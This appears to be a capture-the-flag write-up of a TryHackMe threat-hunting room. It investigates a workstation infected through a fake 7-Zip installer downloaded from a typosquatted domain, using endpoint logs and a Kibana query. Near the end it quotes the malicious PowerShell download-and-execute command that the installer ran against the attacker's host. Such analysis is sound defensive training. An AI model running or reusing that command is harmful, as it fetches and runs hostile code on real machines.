 # Hunt Me II: Typo Squatters Challenge 


## Scenario

Challenge Link: 

[Hunt Me II: Typo Squatters](https://tryhackme.com/room/typosquatters)

Just working on a typical day as a software engineer, Perry received an encrypted 7z archive from his boss containing a snippet of a source code that must be completed within the day. Realising that his current workstation does not have an application that can unpack the file, he spins up his browser and starts to search for software that can aid in accessing the file. Without validating the resource, Perry immediately clicks the first search engine result and installs the application.

<img width="995" height="523" alt="image" src="https://github.com/user-attachments/assets/430b9629-eed9-4b04-acdf-c13a2748777a" />

Last **September 26, 2023**, one of the security analysts observed something unusual on the workstation owned by Perry based on the generated endpoint and network logs. Given this, your SOC lead has assigned you to conduct an in-depth investigation on this workstation and assess the impact of the potential compromise.

## Initial Access

on  `Sep 26, 2023 @ 14:22:07.433` The user downloaded the software using chrome.exe from suspicious website hxxp[://]www[.]7zipp[.]org/a/7z2301-x64[.]msi This domain is a typosquat on the legitimate **`7-zip.org`** domain.

<img width="1865" height="776" alt="image" src="https://github.com/user-attachments/assets/83fd5f26-1627-4ee2-8a28-fee00d4ee697" />

The IP address of the domain is 206[.]189[.]34[.]218

<img width="1343" height="641" alt="image" src="https://github.com/user-attachments/assets/690c8da1-1bc2-4d79-9f54-1586033efa64" />

## Execution

Search for the process that executed the malicious MSI file.

```
*7z2301-x64.msi* and event.code: 1
```

<img width="1891" height="508" alt="image" src="https://github.com/user-attachments/assets/abb537f3-9c46-4184-ba58-83f23c103da5" />

on `Sep 26, 2023 @ 14:23:00.817` The malicious MSI file was executed via **`msiexec.exe`** . By clicking on the View surrounding documents, we will be able to follow the execution chain 

<img width="1572" height="326" alt="image" src="https://github.com/user-attachments/assets/c7f6e15f-ba62-432a-889c-e78c2cddc96f" />

On `Sep 26, 2023 @ 14:23:02.935`. The MSI package invoked a PowerShell command to download and execute a remote script

```powershell
powershell.exe iex(iwr http://www.7zipp.org/a/7z.ps1 -useb)
```
